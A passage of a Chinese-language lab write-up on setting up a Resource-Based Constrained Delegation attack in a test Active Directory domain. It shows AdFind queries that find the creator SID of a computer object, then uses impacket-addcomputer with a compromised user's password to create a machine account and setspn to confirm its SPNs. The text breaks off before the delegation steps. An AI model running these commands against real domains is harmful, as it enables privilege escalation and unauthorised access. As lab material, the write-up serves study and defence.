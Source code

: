 1、创建Win2008-2，使用hack用户加入域，adfind查询

hack用户把WIN2008-2机器拉入域，所以用户hack有给Win2008-2配置RBCD攻击

```plain
PS C:\Users\Administrator\Desktop\AdFind> .\AdFind.exe -b "DC=sec,DC=local" -f "cn=WIN2008-1" cn mS-DS-CreatorSID

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.6054)

dn:CN=WIN2008-1,CN=Computers,DC=sec,DC=local
>cn: WIN2008-1
>ms-ds-creatorsid: S-1-5-21-2066713137-2133816201-3751750268-1103

PS C:\Users\Administrator\Desktop\AdFind> .\AdFind.exe -b "DC=sec,DC=local" -f "(&objectsid=S-1-5-21-2066713137-2133816201-3751750268-1103)"objectclass cn dn

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.6054)

dn:CN=hack,CN=Users,DC=sec,DC=local
>objectClass: top
>objectClass: person
>objectClass: organizationalPerson
>objectClass: user
>cn: hack

1 Objects returned
PS C:\Users\Administrator\Desktop\AdFind>
```

注：使用Ldapsearch查询出来是base64,要自己转换

2、创建机器用户

注：只有ldaps方法创建才会有spn

```plain
┌──(root㉿Kali)-[~]
└─# impacket-addcomputer -computer-name 'machine1$' -computer-pass '123456' -dc-ip 10.10.4.2 -method LDAPS sec.local/hack:"Az123456@"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account machine1$ with password 123456.

```

查询SPN

```plain
C:\Users\Administrator>setspn -q */* | findstr "machine"
CN=machine1,CN=Computers,DC=sec,DC=local
        RestrictedKrbHost/machine1.sec.local
        RestrictedKrbHost/machine1
        HOST/machine1.sec.local
        HOST/machine1

```

